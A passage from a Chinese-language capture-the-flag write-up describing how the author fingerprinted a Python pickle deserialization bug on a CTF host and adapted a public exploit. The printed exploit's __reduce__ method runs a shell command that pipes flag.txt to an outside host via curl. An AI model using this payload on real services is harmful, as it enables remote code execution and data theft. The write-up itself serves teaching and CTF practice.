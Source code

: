 ```
  &lt;ul&gt;&lt;li&gt;&lt;code&gt;goodbye&lt;/code&gt; : &lt;code&gt;0&lt;/code&gt;&lt;/li&gt;&lt;/ul&gt;
           
        &lt;/div&gt;
    &lt;/div&gt;
  &lt;/div&gt;
```

在经过了大量测试之后，我们终于拿到了这一挑战的flag，然后得到了250分。

**远程Apache服务器日志**

```
34.214.16.74 - - [02/Sep/2017:21:12:11 -0700] "GET /?ItsCaptainCrunchThatsZeldasFavorite HTTP/1.1" 200 1937 "-" "curl/7.38.0"
```

**<br>**

**Python Pickle反序列化漏洞**

在下一个CTF挑战中，我们拿到了一台连接至ganon.39586ebba722e94b.ctf.land:8000的主机。在与该主机进行了首次连接之后，我们没有得到什么有用的输出，所以我决定用随机字符和HTTP请求来对该主机的开放端口进行模糊测试，看看能不能得到一些有价值的东西。我进行了大量尝试之后，一个单引号字符触发了如下所示的错误信息:



```
# nc -v ganon.39586ebba722e94b.ctf.land 8000
ec2-34-214-16-74.us-west-2.compute.amazonaws.com [34.214.16.74] 8000 (?) open
cexceptions
AttributeError
p0
(S"Unpickler instance has no attribute 'persistent_load'"
p1
tp2
Rp3
.
```

其中最引人注意的错误信息就是**(S"Unpickler instance has no attribute 'persistent_load'"**，于是我马上用Google搜索关于该错误信息的内容，原来这段错误提示跟一个名叫“Pickle”的Python序列化库有关。

接下来的思路就很清晰了，这个漏洞跟其他的Python反序列化漏洞非常相似，我们应该可以使用类似的方法来拿到这一次挑战的flag。接下来，我用Google搜索了关于“Python Pickle反序列化漏洞利用”的内容，然后发现了如下所示的漏洞利用代码。在对代码进行了简单修改之后，我便得到了一份能够正常工作的漏洞利用代码。它可以向目标服务器发送Pickle序列化对象，而我就可以在该对象中注入任何我想要运行的控制命令了。

**漏洞利用代码**

```
#!/usr/bin/python
# Python Pickle De-serialization Exploit by 1N3@CrowdShield - https://crowdshield.com
#
 
import os
import cPickle
import socket
import os
 
# Exploit that we want the target to unpickle
class Exploit(object):
    def __reduce__(self):
        # Note: this will only list files in your directory.
        # It is a proof of concept.
        return (os.system, ('curl https://crowdshield.com/.injectx/rce.txt?`cat flag.txt`',))
 
def serialize_exploit():
    shellcode = cPickle.dumps(Exploit())
    return shellcode
 
def insecure_deserialize(exploit_code):
```